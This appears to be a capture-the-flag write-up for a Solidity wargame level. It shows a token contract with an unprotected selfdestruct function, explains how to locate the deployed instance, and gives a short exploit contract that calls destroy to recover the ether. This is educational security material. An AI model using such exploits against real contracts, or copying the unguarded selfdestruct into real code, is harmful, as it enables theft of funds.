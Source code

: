 ```sol

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```
The `SimpleToken` contract is is deployed from `generateToken` function from the `Recovery` contract, we need to call the `destroy` function of the deployed instance of `SimpleToken` in order to recover the ether.
We can calculate the address of the deployed instance, [this](https://ethereum.stackexchange.com/questions/9776/generate-contract-address-using-nonce) blog describes how to calculate the address.
Alternatively we can also find the address of the instance by looking at the [EtherScan](https://rinkeby.etherscan.io/) of the transaction to get a new instance, but this method of finding is not recommended although we get the address.

> #### Solution:
> - Find the address of the deployed contract instance, then run the exploit.
> 
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface simpleToken {
>     function destroy(address payable _to) external;
> }
> 
> contract simpleExp{
>     simpleToken sT;
> 
>     constructor(address _instance) public {
>         sT = simpleToken(_instance);
>         address payable _to = payable(address(tx.origin));
>         sT.destroy(_to);
>     }
> }
> ```
